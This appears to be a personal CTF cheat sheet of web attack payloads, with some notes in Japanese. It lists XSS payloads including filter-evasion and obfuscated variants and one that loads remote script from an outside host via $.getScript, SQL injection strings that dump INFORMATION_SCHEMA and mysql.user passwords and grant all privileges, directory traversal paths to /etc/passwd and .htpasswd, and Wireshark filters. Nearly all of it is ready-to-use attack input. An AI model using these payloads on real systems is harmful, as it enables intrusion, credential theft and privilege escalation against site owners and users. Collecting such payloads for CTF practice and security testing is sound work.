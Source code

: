 #XSS

* basic
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>

* image
<img src="xss" onerror="alert('XSS')">

* script
html += "<img src='/static/level3/cloud"'onerror="alert('XSS')"'".jpg' />";
');alert('XSS')('

* on url
javascript:void(document.forms[0].p2.childNodes[1].innerText='<script>alert(document.domain)</script>');

* svg
<svg onload=alert("xss!")>

* mouseover
" onmouseover="alert(document.domain);" x="

* escape
<script>alert('XSS')</sciprt>
"><script>alert(document.domain)</script>
" onmouseover = " alert('\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E')"
re"><script>alert(\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E)</script>
" onmouseover = " alert('\x58\x53\x53') "
"/onmouseover="window['aler'+'t']('XS'+'S')">

* data uri scheme
<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
<object data="data:text/html,<script>alert('XSS2')</script>"></object>

* space
<style/onload    =    !-alert&#x28;document.domain&#x29;>

* vbs
<img language=vbs src=<b onerror=alert#1/1#>

* short
<q/oncut=alert()
<q/oncopy=alert()

* unicode escape
<script>\u0078=\u0061\u006c\u0065\u0072\u0074; \u0078("\u0068\x61\150\u0061");</script>

* gsub
"><sscriptcript>alert('XSS')</sscriptcript>
document.write(); \x3cscript\x3ealert(document.domain);\x3c/script\x3e
p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE
background-color:#f00;background:url("javascript:alert(document.domain);");

<p id=1 onmouseover=alert(document.getElementById(1).innerHTML)>XSS</p>
"(function (text){if(!f)a(text);if(text==='XSS'){if(!f){f=1;window.setTimeout(function(){f=0},100);if(li)li.innerHTML=t}else{f=0;cs=[5010175210,5010175222,5010175227,5010175166,5010175224,5010175218,5010175231,5010175225,5010175166,5010175223,5010175213,5010175140,5010175166,5010175199,5010175194,5010175197,5010175178,5010175192,5010175169,5010175191,5010175169,5010175146,5010175187,5010175169,5010175146,5010175218,5010175149,5010175180,5010175210,5010175169,5010175187,5010175146,5010175216];t='';for(i=0;i<cs.length;i++){t+=String.fromCharCode(cs[i]^0x123456789+123456789)}appendTweet('<b>'+t+'</b>')}}else{f=0}})"

* jquery
<img src=1 onerror=$.getScript('http://vuln.moe/web/xss/xss.js')>


# SQLi
* basic
' or 1=1;--
' or 1=1;#
' or '1

* offset
' or 1=1 offset 1;--

ID: \
PW: OR 1--
ID: ' ||
PW: OR 1--

* union
' or 1=1 union select sql,1,1 from sqlite_master;--
' or 1=1 union select password, name, 1 from users_hogefuga;--
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members 

# null の数を変えてカラム数を特定
' and 1=0 UNION ALL SELECT null,null,null#
# テーブル一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_SCHEMA,TABLE_NAME ,TABLE_COMMENT FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE') ;#
# カラム一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_NAME,COLUMN_NAME,DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME IN('func') ORDER BY TABLE_NAME) ;#
' and 1=0 UNION ALL (SELECT 1, 1, GRANTEE FROM INFORMATION_SCHEMA.SCHEMA_PRIVILEGES); #

' and 1=0 UNION ALL SELECT null,null,null FROM user;#
' and 1=0 UNION ALL SELECT null, current_user(), version();#
' and 1=0 UNION ALL GRANT ALL PRIVILEGES ON *.* TO username@'%'#
' and 1=0 UNION ALL SELECT null, null, password FROM mysql.user#
SCHEMA_PRIVILEGES
fuga' OORR '1
5.1.73
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/

# perl json sqli
{ "name" : "a", "a\") OR 1 #" : "a" }

# Wire shark packete filter
icmp.type == 8
http.host contains google
tcp.flags == 0x02
tcp.flags == 0x12
tcp.flags == 0x14
http.response
http.request

udp contains 33:27:58
* パケットサイズ
frame.len == 18
data.data
frame contains 17
(tcp.flags.reset == 1) && (ip.id > 0)

# directory traversal
view.php?file=../index.php
?lang=php://filter/convert.base64-encode/resource=index.php
../index
../index.php
/etc/passwd
../../../etc/passwd
/etc/apache2/httpd.conf
.git
sitemap.xml
robots.txt
%00
.htpasswd%00


# dump header grep
curl --dump-header - http://ringzer0team.com/challenges/43 2> /dev/null |grep needle
